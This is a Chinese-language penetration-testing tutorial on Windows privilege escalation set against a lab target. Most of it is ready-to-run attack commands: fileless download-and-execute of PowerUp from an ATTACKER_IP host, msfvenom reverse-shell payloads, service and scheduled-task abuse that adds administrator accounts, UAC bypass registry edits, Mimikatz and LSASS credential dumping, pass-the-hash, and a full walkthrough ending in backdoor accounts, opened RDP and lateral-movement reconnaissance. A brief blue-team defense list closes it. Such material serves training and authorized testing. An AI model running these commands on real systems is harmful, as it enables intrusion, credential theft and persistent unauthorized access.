

# 02-Windows权限提升技术

学习目标: 掌握winPEAS、PowerUp等Windows提权工具，熟悉Token窃取、服务配置错误等主流提权向量
目标工具: winPEAS, PowerUp, accesschk, Mimikatz, Metasploit (getsystem)
所需环境: ArchStrike (攻击机), Windows靶机 (Windows 7/10/Server)

## 目录

- [[#一、Windows提权概述|一、Windows提权概述]]
- [[#二、winPEAS 权限分析|二、winPEAS - 权限分析神器]]
 - [[#2.1 获取与上传|2.1 获取与上传]]
 - [[#2.2 运行与解读|2.2 运行与解读]]
- [[#三、PowerUp 自动化提权|三、PowerUp - 自动化提权模块]]
- [[#四、Windows提权常用方法|四、Windows提权常用方法详解]]
 - [[#4.1 服务权限配置错误|4.1 服务权限配置错误]]
 - [[#4.2 未引用服务路径|4.2 未引用服务路径]]
 - [[#4.3 AlwaysInstallElevated|4.3 AlwaysInstallElevated]]
 - [[#4.4 Token窃取|4.4 Token窃取]]
 - [[#4.5 UAC绕过|4.5 UAC绕过]]
 - [[#4.6 计划任务提权|4.6 计划任务提权]]
 - [[#4.7 凭证提取|4.7 凭证提取 - Mimikatz]]
 - [[#4.8 其他提权向量|4.8 其他提权向量]]
- [[#五、完整实践|五、完整实践 - Windows靶机提权]]
- [[#六、防御建议|六、防御建议 蓝队视角]]

## 一、Windows提权概述

Windows权限体系与Linux有本质区别，其基于访问令牌（Access Token）和完整性级别（Integrity Level）。



Windows提权的典型路径：
普通用户 → 本地管理员 → SYSTEM (→ 域管理员)

常见的低权限入口：
- Web应用漏洞获得的 `IIS APPPOOL\DefaultAppPool` 用户
- 钓鱼邮件附件执行的宏木马
- RDP弱密码登录的低权限用户
- 通过SMB漏洞获得的非管理员权限

获得初始shell后第一件事：

```powershell
whoami
whoami /priv
whoami /groups
net user %username%
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

## 二、winPEAS - 权限分析神器

### 2.1 获取与上传

```bash
# 在ArchStrike上
sudo pacman -S peass

# 或从GitHub下载
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx86.exe
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat
```

选择适合的版本：
- `winPEASx64.exe` → 64位Windows
- `winPEASx86.exe` → 32位Windows
- `winPEAS.bat` → 批处理版本（兼容性最好但信息较少）

上传到目标的方法：

```powershell
# 方法一: HTTP服务器
(New-Object Net.WebClient).DownloadFile('http://ATTACKER_IP:8080/winPEASx64.exe', 'C:\Users\Public\wp.exe')

# 方法二: cmd certutil
certutil -urlcache -f http://ATTACKER_IP:8080/winPEASx64.exe C:\Users\Public\wp.exe

# 方法三: SMB
copy \\ATTACKER_IP\share\winPEASx64.exe C:\Users\Public\wp.exe

# 方法四: Meterpreter
upload /path/to/winPEASx64.exe C:\\Users\\Public\\wp.exe
```

### 2.2 运行与解读

```cmd
:: 运行并保存输出
C:\Users\Public\wp.exe > output.txt 2>&1

:: 只运行特定检查类别
C:\Users\Public\wp.exe systeminfo > si_output.txt
C:\Users\Public\wp.exe userinfo > ui_output.txt

:: 后台运行
start /b C:\Users\Public\wp.exe > output.txt 2>&1
```

winPEAS 颜色标记：

| 颜色 | 含义 | 典型发现 |
|------|------|---------|
| 红色 | 极高概率提权向量 | AlwaysInstallElevated=1, 可修改SYSTEM服务 |
| 黄色 | 中等概率 | Unquoted路径, AutoRuns可写, SeImpersonate |
| 绿色 | 信息 | 系统信息, 网络配置 |

重点关注区域：

```
1. Windows Credentials 存储的凭证
2. Services Information 服务信息（重点）
3. Applications 已安装应用及版本
4. Internet & Network 网络信息
5. Users 用户和组信息
6. Scheduled Tasks 计划任务
7. System Information 系统信息
8. Files Analysis 文件分析
9. Credentials 浏览器/应用凭证
```

特别关注的 winPEAS 发现：

1. **AutoRuns**: 所有自启动项，检查是否可写
2. **Unquoted Service Paths**: 路径有空格的未引号服务
3. **Modifiable Services**: StartName=LocalSystem + 当前用户可修改
4. **AlwaysInstallElevated**: 两个注册表键都为1时可提权安装MSI
5. **Cached Credentials**: cmdkey列表、RDP凭证、浏览器密码
6. **Scheduled Tasks**: SYSTEM运行+脚本可写
7. **Exploits**: 自动匹配已安装程序的已知漏洞版本

## 三、PowerUp - 自动化提权模块

PowerUp是PowerSploit框架中的权限枚举和提权模块。

```bash
# 获取
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
git clone https://github.com/PowerShellMafia/PowerSploit.git
```

加载PowerUp：

```powershell
# 方法一: 内存加载（不落地）
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:8080/PowerUp.ps1')

# 方法二: dot-sourcing
PowerShell -ExecutionPolicy Bypass
. .\PowerUp.ps1
Invoke-AllChecks | Export-Csv powerup_results.csv
```

PowerUp 主要功能：

```powershell
# 运行所有检查
Invoke-AllChecks

# 查找未引用路径的服务
Get-UnquotedService | Out-File unquoted.txt

# 查找可修改的服务
Get-ModifiableService | Out-File modifiable.txt

# 获取服务详情
Get-ServiceDetail -ServiceName Spooler

# 滥用可修改的服务
Invoke-ServiceAbuse -ServiceName VulnService -Command "net user hacker Password123 /add"

# 写入后门服务二进制
Write-ServiceBinary -ServiceName VulnService -Path "C:\Program Files\Vuln\service.exe"

# AlwaysInstallElevated提权
Write-UserAddMSI
```

## 四、Windows提权常用方法详解

### 4.1 服务权限配置错误

原理: 以SYSTEM身份运行的服务，其可执行文件对当前用户可写。

```cmd
:: 使用accesschk发现
accesschk.exe -uwcqv "USERS" * /accepteula

:: PowerShell发现
Get-WmiObject win32_service | Where-Object {$_.StartName -eq "LocalSystem"} | Format-Table Name, PathName
```

利用步骤：

```cmd
:: 检查服务状态
sc qc VulnService
sc stop VulnService
sc start VulnService

:: 修改服务配置（添加管理员用户）
sc config VulnService binpath= "cmd /c net user hacker Password123! /add && net localgroup administrators hacker /add"
sc start VulnService

:: 隐蔽方式（修改后还原）
sc config VulnService binpath= "C:\Windows\Temp\shell.exe"
sc start VulnService
:: 获取SYSTEM shell后，还原路径
sc config VulnService binpath= "C:\Original\Path\service.exe"
```

### 4.2 未引用服务路径 (Unquoted Service Path)

原理: 路径 `C:\Program Files\Vuln App\service.exe` 未引号时，Windows依次尝试：
1. `C:\Program.exe`
2. `C:\Program Files\Vuln.exe`
3. `C:\Program Files\Vuln App\service.exe` (正确)

```powershell
# 发现
Get-UnquotedService

# 或手动
wmic service get name,pathname,startname | findstr /i "LocalSystem" | findstr /i /v "\""
```

利用步骤：

```bash
# 生成后门
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o Vuln.exe
```

```cmd
:: 检查写入权限
icacls "C:\Program Files\Vuln App"

:: 放置后门到可写位置（路径中的空格处）
copy Vuln.exe "C:\Program Files\Vuln.exe"

:: 触发
sc stop VulnService
sc start VulnService
```

### 4.3 AlwaysInstallElevated

检查注册表：

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

如果两者都返回 `0x1`，则可利用：

```bash
# 生成MSI后门
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o shell.msi
```

```cmd
:: 安装MSI（以SYSTEM权限运行）
msiexec /quiet /qn /i C:\Users\Public\shell.msi
```

PowerUp自动利用：

```powershell
Write-UserAddMSI
msiexec /i UserAdd.msi
```

### 4.4 Token窃取 (Token Impersonation)

检查是否拥有 `SeImpersonatePrivilege` 权限：

```cmd
whoami /priv
```

如果看到 `SeImpersonatePrivilege` 或 `SeAssignPrimaryTokenPrivilege` 为 `Enabled`：

**Meterpreter 方法：**

```bash
# Meterpreter中
meterpreter> getuid
# Server username: IIS APPPOOL\DefaultAppPool
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\SYSTEM"
meterpreter> getuid
# Server username: NT AUTHORITY\SYSTEM

# 或使用getsystem
meterpreter> getsystem
meterpreter> getsystem -t 1 # Named Pipe
meterpreter> getsystem -t 2 # Token Duplication
meterpreter> getsystem -t 3 # Service
```

**Potato家族工具：**

| 工具 | 适用场景 |
|------|---------|
| JuicyPotato | Win7/8/10 (CLSID依赖OS版本) |
| RoguePotato | Win10+/Server2019+ |
| SweetPotato | 新版(集成了多种CLSID) |
| PrintSpoofer | Win10+/Server2019+ |
| GodPotato | Win10+/Server2012+ (最通用) |

```cmd
:: JuicyPotato
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c whoami" -t *

:: PrintSpoofer
PrintSpoofer.exe -c "cmd /c whoami"

:: GodPotato
GodPotato.exe -cmd "C:\Windows\System32\cmd.exe /c whoami"

:: SweetPotato
SweetPotato.exe -p C:\Windows\System32\cmd.exe -a "/c whoami > C:\Users\Public\result.txt"
```

### 4.5 UAC绕过

检查UAC级别：

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
```

UAC级别: 0=从不通知, 1=总是通知, 2=默认, 3=仅通知, 5=最高安全

常用UAC绕过：

```cmd
:: Fodhelper.exe绕过 (Win10)
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe /c C:\Users\Public\shell.exe" /f
fodhelper.exe

:: Eventvwr.exe绕过
reg add HKCU\Software\Classes\mscfile\Shell\Open\command /ve /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
eventvwr.exe

:: ComputerDefaults.exe绕过
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe /c start cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f
computerdefaults.exe
```

Metasploit UAC绕过：

```bash
msf6> use exploit/windows/local/bypassuac
msf6> use exploit/windows/local/bypassuac_fodhelper
msf6> use exploit/windows/local/bypassuac_eventvwr
```

UACME工具：

```cmd
Akagi64.exe 1 :: 方法1
Akagi64.exe 23 :: 方法23
Akagi64.exe 41 :: 方法41
```

### 4.6 计划任务提权

```cmd
:: 列出计划任务
schtasks /query /fo LIST /v | findstr /i "TaskName"

:: 检查可写脚本目录
dir C:\Scripts\*.*
```

利用可写脚本：

```cmd
echo net user hacker Password123 /add >> C:\Scripts\cleanup.bat
echo net localgroup administrators hacker /add >> C:\Scripts\cleanup.bat

:: 手动触发
schtasks /run /tn "CleanupTask"
```

### 4.7 凭证提取 - Mimikatz

```bash
# 安装
sudo pacman -S mimikatz
wget https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip
```

运行Mimikatz (需要管理员/SYSTEM权限)：

```
mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
lsadump::cache
```

LSASS Dump + 离线分析：

```cmd
:: Dump LSASS内存
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

```
:: 在攻击机上分析
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

Pass-the-Hash (PtH)：

```bash
# Mimikatz
sekurlsa::pth /user:Administrator /domain:TARGET /ntlm:HASH_HERE

# impacket
impacket-psexec -hashes :NTLM_HASH Administrator@TARGET_IP

# CrackMapExec
crackmapexec smb TARGET_IP -u Administrator -H NTLM_HASH
```

### 4.8 其他提权向量

**注册表AutoRun：**

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

**启动文件夹：**

```cmd
dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

**内核漏洞：**

```bash
# 使用windows-exploit-suggester
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
# 目标机获取systeminfo > systeminfo.txt
python windows-exploit-suggester.py --database xxxx.xlsx --systeminfo systeminfo.txt
```

## 五、完整实践 - Windows靶机提权

假设已获得低权限Meterpreter会话：

```bash
meterpreter> getuid
# Server username: WIN-TARGET\LowPrivUser

# Step 1: 初始信息收集
meterpreter> sysinfo
meterpreter> shell
whoami /priv
whoami /groups
systeminfo
net user %username%

# Step 2: 上传winPEAS
meterpreter> upload /path/to/winPEASx64.exe C:\\Users\\Public\\wp.exe
meterpreter> shell
C:\Users\Public\wp.exe > C:\Users\Public\peas_output.txt 2>&1
meterpreter> download C:\\Users\\Public\\peas_output.txt

# 在攻击机上分析
grep -i "red\|yellow\|interesting\|vulnerable\|exploit\|potato\|unquoted\|modifiable" peas_output.txt

# Step 3: 加载PowerUp
meterpreter> shell
PowerShell -ExecutionPolicy Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:8080/PowerUp.ps1'); Invoke-AllChecks | Out-File C:\Users\Public\powerup_result.txt"

# Step 4: 尝试getsystem
meterpreter> getsystem
meterpreter> getuid
# NT AUTHORITY\SYSTEM

# Step 5: 如果getsystem失败，尝试Potato系列
meterpreter> shell
whoami /priv | findstr "SeImpersonate"
meterpreter> upload /path/to/SweetPotato.exe C:\\Users\\Public\\sp.exe

# 生成反弹shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe -o shell.exe
meterpreter> upload /path/to/shell.exe C:\\Users\\Public\\shell.exe
C:\Users\Public\sp.exe -p C:\Users\Public\shell.exe

# Step 6: 提取凭证
meterpreter> load kiwi
meterpreter> creds_all

# Step 7: 维持访问
meterpreter> shell
net user redteam Password123! /add
net localgroup administrators redteam /add
net localgroup "Remote Desktop Users" redteam /add

# 启用RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall add rule name="RDP" dir=in protocol=tcp localport=3389 action=allow

# Step 8: 横向移动准备
ipconfig /all
net view
net view /domain
nltest /dclist:DOMAIN
```

## 六、防御建议 (蓝队视角)

1. **服务路径配置**: 所有服务路径使用引号包裹，严格控制服务目录写入权限
2. **UAC保护**: 使用最高的UAC级别（Always notify），管理员审批模式启用
3. **注册表安全**: 禁用AlwaysInstallElevated，审计注册表AutoRun键
4. **凭证保护**: 启用Credential Guard，启用LSA保护，使用Protected Users组
5. **审计和监控**: 监控服务创建/修改，监控SeImpersonatePrivilege的异常使用
6. **最小权限原则**: 服务账户使用最小权限，定期审计用户组成员资格

---

总结: Windows提权与Linux提权有相似的理念但不同的技术路线。winPEAS是信息收集的核心工具，几乎覆盖所有常见配置类提权向量。Token窃取（Potato系列）是Windows特有的强大提权路径。

上一教程：[[01-Linux权限提升完整指南|01-Linux权限提升完整指南]]
下一教程：[[03-提权综合工具链实战|03-提权综合工具链实战]]

[[../总目录与快速查询|← 返回总目录]]
